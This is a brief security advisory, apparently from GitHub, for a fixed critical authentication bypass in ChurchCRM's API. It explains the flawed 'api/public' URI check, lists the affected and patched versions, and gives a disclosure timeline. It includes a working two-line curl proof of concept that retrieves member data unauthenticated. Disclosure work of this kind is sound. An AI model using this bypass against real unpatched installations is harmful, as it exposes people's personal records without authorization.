 # ChurchCRM — API Authentication Bypass (minimal PoC)

**Status:** Fixed (PR #7376 merged Oct 4, 2025) — CVE pending/requested  
**Severity:** **Critical** — CVSS v3.1 **9.4** (`AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L`)

**Affected versions:** `ChurchCRM <= 5.18.0`  
**Patched versions:** `>= 5.18.1` (patch merged in PR #7376 — confirm release tag)

**Fix PR:** https://github.com/ChurchCRM/CRM/pull/7376 (merge commit `3a1cffd`)

---

## Summary
A critical authentication bypass in ChurchCRM’s API middleware allows unauthenticated attackers to access and, in some cases, manipulate protected API endpoints by including the substring `api/public` anywhere in the request URI (path, query string, or fragment). The root cause is a string match against the full URI instead of the request path.

---

## Minimal POC

```bash
### unauthenticated (expected HTTP/401)
curl -i 'https://<target>/api/persons/latest'

### bypass by adding query parameter (returns HTTP/200 and member data)
curl -i 'https://<target>/api/persons/latest?bypass=api/public'
```

---

## Timeline
- 2025-09-26 — Reported privately via GitHub security advisory.
- 2025-10-04 — Fix merged in PR #7376; maintainer closed the private advisory.
- 2025-10-06 — CVE request submitted by reporter.
